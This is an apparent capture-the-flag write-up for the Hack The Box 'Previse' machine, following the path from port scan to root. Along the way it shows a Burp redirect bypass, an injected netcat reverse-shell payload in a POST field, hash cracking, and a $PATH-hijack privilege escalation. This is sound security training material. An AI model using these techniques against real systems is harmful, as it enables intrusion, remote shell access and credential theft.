 ```yaml
---
layout: single
title: Previse HTB writeup
excerpt: "Easy linux machine in which we take advantage of the exec function, crack a hash and manipulate the $PATH"
date: 2021-12-21
classes: wide
header:
  teaser: /assets/images/previse/icon-previse.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - writeup
tags:
  - hackthebox
  - code review
  - PATH
  - MySQL
---
```


![](/assets/images/previse/previse.png)

# PREVISE

### User Flag

```bash
[kali@kali ~]$ sudo nmap -p- -sS --min-rate 5000 --open -vvv -n -Pn 10.10.11.104
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Now we proceed to fuzz the webpage:

```bash
[kali@kali ~]$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt:FUZZ -u http://10.10.11.104:80/FUZZ -recursion -e .php -v -t 200
```

Many directories and files appear, but most of them return code 302. In other words, we need to log in so we can see them. However, we can bypass that by faking the response from the server and replacing the 302 status with a 200. We will do so by using burp. First, we configure our browser and set the proxy to 127.0.0.1 and port 8080 (so the traffic is redirected into burp). Then, we go into `Proxy` and click `Intercept is off` to intercept the traffic. In the browser, we go to http://10.10.11.104/accounts.php. When the `GET` request has been intercepted in burp, we have to click on `Action->Do intercept->Response to this request`. Then we click `Forward`, and now we can see the 302 response from the server. Now we need to fake it and replace `302 Found` by `200 OK` and click `Forward`. Now, in  the browser, we create a new account.

After we have logged into the webpage, we can go to http://10.10.11.104/files.php, where we will download a zip that contains a backup of the webpage. In the backup, we can read the php code that runs the page. We find an interesting file, `config.php` that seems to contain the user and password of the MySQL database. Since the MySQL port cannot be accessed from the outside (it did not appear in the nmap scan), this is useless at the moment. However, searching in the `logs.php` file, we find a possible vector attack:

```php
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
```

Using the POST argument we can execute arbitrary code. We can exploit this vulnerability by creating a reverse shell. We listen in a given port with `nc`:

```bash
[kali@kali ~]$ nc -lnvvvp 4444
```

Then, we connect to the page (http://10.10.11.104/file_logs.php), intercept the traffic using burp, and click on the `SUBMIT` button. We intercept the POST message and append a netcat command to create a reverse shell:

```
delim=comma;nc our_vpn_ip 4444 -e /bin/bash
```

When we get the connection in our netcat, we can run the shell inside a python to get a better interface:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@previse:/var/www/html$
www-data@previse:/var/www/html$ cat /etc/passwd
```

Now that we are logged in with the `www-data` user, we can see that there is a user called `m4lwhere`. We can try to connect to the MySQL database using the previously discovered password:

```bash
www-data@previse:/var/www/html$ mysql -u root -p
mysql -u root -p
Enter password:
```

Inside the database we find a interesting table:

```sql
mysql> show databases;
...
use previse;
select * from accounts;
+----+---------------+------------------------------------+---------------------+
| id | username      | password                           | created_at          |
+----+---------------+------------------------------------+---------------------+
|  1 | m4lwhere      | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
+----+---------------+------------------------------------+--------------------
```

We assume that the `m4lwhere` user has the same password in the database as in the Linux user. Therefore, we proceed to crack the password via hashcat. We just store the password (containing the password and the salt) into a .txt file and use the rockyou wordlist to crack it. We use `-m 500` flag to use hashcat format 500 (see the [hashcat webpage](https://hashcat.net/wiki/doku.php?id=example_hashes) to see all the available formats).

```bash
[kali@kali ~]$ hashcat -m 500 hash.txt rockyou.txt
```

After we crack the password, we connect via ssh and get the user flag.

### Root flag

After some enumeration, we'll find that in /opt/scripts there is a promising file called `access_backup.sh`:

```bash
m4lwhere@previse:~$ ls -l /opt/scripts/access_backup.sh
-rwxr-xr-x 1 root root 486 Jun  6  2021 /opt/scripts/access_backup.sh
m4lwhere@previse:~$ cat /opt/scripts/access_backup.sh
#!/bin/bash

...

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

We can check that the user `m4lwhere` is able to run the script with sudo, so we can exploit this file and use PATH manipulation to do privilege escalation:

```bash
m4lwhere@previse:~$ mkdir test/ && cd test/
m4lwhere@previse:~/test$ nano gzip
/bin/cat /root/root.txt > /home/m4lwhere/root.txt
m4lwhere@previse:~/test$ cp gzip date
```

so the root user outputs the root flag to a file that can be read by our current user. Then, we run the script and set the PATH variable to the path where we stored the malicious scripts:

```bash
m4lwhere@previse:~/test$ PATH=/home/m4lwhere/test/ /usr/bin/sudo /opt/scripts/access_backup.sh
m4lwhere@previse:~/test$ cat /home/m4lwhere/root.txt
```
